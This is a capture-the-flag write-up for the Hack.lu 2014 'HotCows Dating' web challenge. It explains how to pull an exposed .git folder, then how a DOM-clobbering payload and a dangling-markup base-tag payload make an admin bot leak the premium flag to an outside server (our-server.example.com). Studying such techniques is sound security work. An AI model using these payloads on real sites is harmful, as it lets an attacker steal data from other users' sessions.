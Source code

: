 # Hack.lu CTF 2014: HotCows Dating

**Category:** Web
**Points:** 400
**Author:** qll
**Description:**

> If you want to take a break from all the hard work, you’ve come to the right place. Many things have been said about this dating service. Some say it holds your greatest desires, some say it is merely disgusting. All of it is probably true, but see for yourself… <https://wildwildweb.fluxfingers.net:1401/>
>
> **Hint:** Let’s start with an obvious hint: What do we tell search engines about cow love? “No no”.
>
> **Note:** The support uses Chromium (37) which does support CSP, does not have any particularly interesting extensions and is most certainly no Internet Explorer. Support also does not see anything else than you. They really just visit the cow’s profile you give them.

## Write-up

<https://wildwildweb.fluxfingers.net:1401/> is a dating site for cows. After signing up for an account and logging in, we’re redirected to <https://wildwildweb.fluxfingers.net:1401/?p=internal> where we can choose a hot, single cow to chat with. Selecting ‘Rosie’ brings us to `https://wildwildweb.fluxfingers.net:1401/?p=chat#Rosie` which displays a chat interface:

![](chat.jpg)

The ‘Report a Problem’ button links to `https://wildwildweb.fluxfingers.net:1401/?p=report` where you can enter the name of a cow and a description of the issue you’re having.

![](report.jpg)

Some further site recon reveals an interesting `robots.txt` file:

```bash
$ curl https://wildwildweb.fluxfingers.net:1401/robots.txt
User-agent: *
Disallow: /index.php?api=*
Disallow: /.git/
```

And sure enough, their entire `.git` folder is available at `https://wildwildweb.fluxfingers.net:1401/.git/`. Let’s download the whole thing:

```bash
$ wget -r https://wildwildweb.fluxfingers.net:1401/.git/
```

This is a so-called _bare Git repository_: it contains the repository data but not the actual files. Luckily it’s possible to extract those:

```bash
$ ls -la
total 0
drwxr-xr-x   3 mathias  staff  102 Oct 22 16:57 .
drwxr-xr-x   6 mathias  staff  204 Oct 22 17:00 ..
drwxr-xr-x  14 mathias  staff  476 Oct 22 17:00 .git

$ git config --local --bool core.bare false

$ git checkout -f

$ ls -la
total 24
drwxr-xr-x  12 mathias  staff   408 Oct 22 17:03 .
drwxr-xr-x   6 mathias  staff   204 Oct 22 17:00 ..
drwxr-xr-x  14 mathias  staff   476 Oct 22 17:03 .git
drwxr-xr-x   8 mathias  staff   272 Oct 22 17:03 api
-rw-r--r--   1 mathias  staff  1499 Oct 22 17:03 cfg.php
drwxr-xr-x   3 mathias  staff   102 Oct 22 17:03 css
-rw-r--r--   1 mathias  staff   555 Oct 22 17:03 index.php
drwxr-xr-x   8 mathias  staff   272 Oct 22 17:03 js
drwxr-xr-x   4 mathias  staff   136 Oct 22 17:03 lib
-rw-r--r--   1 mathias  staff    57 Oct 22 17:03 robots.txt
drwxr-xr-x   7 mathias  staff   238 Oct 22 17:03 static
drwxr-xr-x  10 mathias  staff   340 Oct 22 17:03 templates
```

Now we have access to the full source code for the site.

Studying the code reveals that the flag is messaged to premium account users when they start a new chat session. See the `page.firstMessage` function in `js/pages/chat.js`. Since there’s no way for us to get a premium account, we’ll have to find a way to have a premium user do this for us, and then leak the flag somehow.

We guessed that the ‘report a problem’ functionality would cause a logged-in site administrator to visit the profile for the cow whose name you enter. What if we can get a cross-site scripting (XSS) vector in there?

Eventually, this is the cow name we entered (explanation follows):

```
https://our-server.example.com/<form name=getElementById></form>
```

We assumed that this would cause the server admin to visit the following URL:

```
https://wildwildweb.fluxfingers.net:1401/?p=chat#https://our-server.example.com/<form name=getElementById></form>
```

And indeed – a few moments later we got a hit on our server:

```
149.13.33.84 - - [22/Oct/2014 15:51:58] "GET /%3Cform%20name=getElementById%3E%3C/form%3E%20(PREM_flag%7Bcows_need_love_too!%7D) HTTP/1.1" 404 -
```

After URL-decoding, that becomes:

```
<form name=getElementById></form> (PREM_flag{cows_need_love_too!})
```

The flag is `flag{cows_need_love_too}`. But why on earth did this work?!

The `page.view` function around line 134 of `js/pages/chat.js` contains this snippet:

```js
cow_name = location.hash.slice(1);
/* … */
temp_main = new Template('cow.html');
temp_main.assign(cow_name, 'cow');
temp_main.render();
```

`location.hash.slice(1)` is the part of the URL following `#`, which is under our control. Since this value is never sanitized, this creates an XSS vulnerability. However, the site is sending a CSP header which disallows inline scripts:

```http
Content-Security-Policy: default-src 'none'; img-src 'self'; script-src 'self'; style-src 'self'; connect-src 'self'
```

So injecting scripts won’t work, but we can still insert arbitrary HTML. So why did we inject `<form name=getElementById></form>`, of all things? When the above code is executed, and the `<form>` is inserted into the DOM, we’ve successfully [clobbered](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/) `document.getElementById`: it is now a reference to the injected `<form>` element rather than the DOM method the rest of the script expects. That’s why the next line throws an exception:

```js
btn_logout = document.getElementById('btn-logout');
```

Since the error is not caught using `catch`, the rest of the code in `page.view` never executes. This line, for example, is never reached:

```js
temp = new Template('message.html');
```

As a result, the global `temp` variable maintains its previous value, which is a reference to the built-in `location` object because of this line in `js/router.js`:

```js
router.route((m = /p=(\w+)/.exec(temp=location)) ? m[1] : 'index',
       (!!temp.hash) ? temp.hash.slice(1) : undefined);
```

When the page was loaded, `js/pages/chat.js` set up a timer to call `page.firstMessage` after a second:

```js
setTimeout(page.firstMessage, 1000);
```

The `page.firstMessage` function looks like this:

```js
/**
 * Greet the user after a while to avoid suspicion.
 */
page.firstMessage = function firstMessage() {
  if (!!temp) { // if template loaded
    temp.assign('system', 'class');
    temp.assign('In chat with', 'name')
    message = cow_name + ((has_premium) ? ' (' + premium_id + ')' : '');
    temp.assign(message, 'msg');
    page.appendMessage(temp);
    temp.assign('her', 'class');
    temp.assign(cow_name, 'name')
    temp.assign(page.chatAnswer('', cow_name), 'msg');
    page.appendMessage(temp);
  } else {
    // wait some more
    setTimeout(page.firstMessage, 1000);
  }
};
```

`temp.assign` is supposed to refer to the custom `Template.prototype.assign` method as defined in `js/template.js`, but because `temp` is now a reference to `location`, it’s actually [`location.assign`](https://html.spec.whatwg.org/multipage/browsers.html#dom-location-assign).

Note that thanks to our DOM clobbering attack, the call to `page.appendMessage` throws an exception, since it attempts to use `document.getElementById`. As a result, the rest of the code in `page.firstMessage` is never executed. This leaves the following code:

```js
temp.assign('system', 'class');
temp.assign('In chat with', 'name')
message = cow_name + ((has_premium) ? ' (' + premium_id + ')' : '');
temp.assign(message, 'msg');
page.appendMessage(temp); // ← This throws an exception.
// The code below is never reached.
```

Another thing to keep in mind is that browsers batch successive calls to `location.assign` together. For example, this HTML document redirects you to `https://example.com/?q=b` and not `https://example.com/?q=a`:

```html
<script>
  location.assign('https://example.com/?q=a');
  location.assign('https://example.com/?q=b');
</script>
```

Similarly, only the last `temp.assign` call is effective:

```js
temp.assign(message, 'msg');
```

That’s good news, because it contains the flag! Now you know why/how that ‘exploit’ we showed you earlier works. Here it is one more time:

```
https://our-server.example.com/<form name=getElementById></form>
```

Isn’t it beautiful?

### Simpler, unintended solution

A much simpler way to solve the challenge was to use a [dangling markup injection](http://lcamtuf.coredump.cx/postxss/#dangling-markup-injection) attack in combination with a `<base>` tag to leak part of the HTML to a server under our control:

```
<base href=https://our-server.example.com/><img src="
```

The challenge author confirmed on IRC that this is not the intended solution, although it is a very nice bypass.

## Other write-ups and resources

* [More info about _DOM clobbering_, the technique used to solve this challenge](http://www.thespanner.co.uk/2013/05/16/dom-clobbering/)
